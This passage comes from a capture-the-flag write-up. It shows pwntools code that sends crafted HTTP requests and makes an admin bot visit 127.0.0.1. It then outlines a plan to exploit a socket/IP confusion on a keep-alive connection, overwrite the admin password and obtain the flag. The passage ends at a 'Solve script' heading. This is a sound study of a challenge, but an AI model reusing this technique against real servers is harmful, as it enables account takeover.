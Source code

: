```python
    mlen = re.search(br'(?i)\r\nContent-Length:\s*(\d+)\r\n', hdr)
    clen = int(mlen.group(1)) if mlen else 0
    body = r.recvn(clen, timeout=10) if clen else b""
    return status, hdr, body
    
def visit():
    r = remote(HOST, PORT)
    req = (
        "POST /visit HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        "X-Target: http://127.0.0.1:8080/\r\n"
        "Content-Length: 0\r\n"
        "Connection: close\r\n"
        "\r\n"
    ).encode()
    http_send(r, req)
    r.close()
    
def trigger(r):
    req = (
        "GET /hihi HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        "Content-Length: 0\r\n"
        "Connection: keep-alive\r\n"
        "\r\n"
    ).encode()
    status, hdr, body = http_send(r, req)
    text = (body or b"").decode(errors="ignore")
    return status, text
    
p = remote(HOST, PORT)

visit()

for _ in range(200):
    status, text = trigger(p)
```

When the bot visits, the last socket have local address

![image](https://hackmd.io/_uploads/Sk3fnAkoxe.png)

Now the strategy is that 

* Open a keep_alive connection
* Trigger bot to visit. Add `127.0.0.1` socket to clients
* Immediately send a `/register` request on that same socket. But it will uses the last socket IP address is `127.0.0.1`
* Overwrite admin password
* Get the flag

### Solve script
